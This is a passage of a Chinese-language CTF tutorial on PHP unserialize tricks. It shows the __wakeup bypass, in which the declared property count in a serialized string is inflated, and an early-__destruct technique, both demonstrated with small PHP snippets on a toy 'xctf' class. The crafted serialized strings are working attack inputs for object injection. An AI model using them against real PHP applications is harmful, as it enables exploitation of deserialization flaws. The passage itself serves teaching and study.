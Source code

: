 可以看到此时_wakeup函数已经执行

_wakeup漏洞：

当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过 _wakeup() 的执行。

此时修改属性个数1->2此时会绕过_wake()函数的执行

```php
O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

构造代码：

```php
<?php
class xctf{ //类
public $flag = '111';//public定义flag变量公开可见
public function __wakeup(){
echo "wake\r\n";
  }
}
$a="O:4:\"xctf\":2:{s:4:\"flag\";s:3:\"111\";}";
$b=unserialize($a);
var_dump($b);
?>
```

输出结果：由于不正确的字符串，所以反序列化后的值为false

```
bool(false)
```

### _destruct()提前执行

当一个对象销毁时会执行 _destruct() 析构函数，我们可以利用构造一个不完整的序列化字符串来实现析构函数的直接执行

首先和上面一样构造一个正常的序列化字符串

```php
O:4:"xctf":1:{s:4:"flag";s:3:"111";}
```

此时运行函数：

```php
<?php
class xctf{ //类
public $flag = '111';//public定义flag变量公开可见
public function __destruct(){
echo "des\r\n";
 }
}
$a="O:4:\"xctf\":1:{s:4:\"flag\";s:3:\"111\";}";
$b=unserialize($a);
var_dump($b);
?>
```

